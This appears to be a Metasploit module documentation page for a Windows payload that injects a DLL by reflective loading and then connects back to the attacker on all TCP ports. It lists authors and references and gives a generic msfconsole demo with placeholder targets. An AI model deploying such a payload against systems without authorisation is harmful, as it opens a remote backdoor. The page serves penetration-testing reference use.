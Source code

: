 ## Reflective DLL Injection, Reverse All-Port TCP Stager

Inject a DLL via a reflective loader. Try to connect back to 
the attacker, on all possible ports (1-65535, slowly)


## Module Name
payload/windows/dllinject/reverse_tcp_allports

## Authors
* sf
* hdm
* skape


## References
* https://github.com/stephenfewer/ReflectiveDLLInjection
* https://github.com/rapid7/ReflectiveDLLInjection




## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/dllinject/reverse_tcp_allports
msf payload(reverse_tcp_allports) > show targets
   ... a list of targets ...
msf payload(reverse_tcp_allports) > set TARGET <target-id>
msf payload(reverse_tcp_allports) > show options
   ... show and set options ...
msf payload(reverse_tcp_allports) > run
```
    
    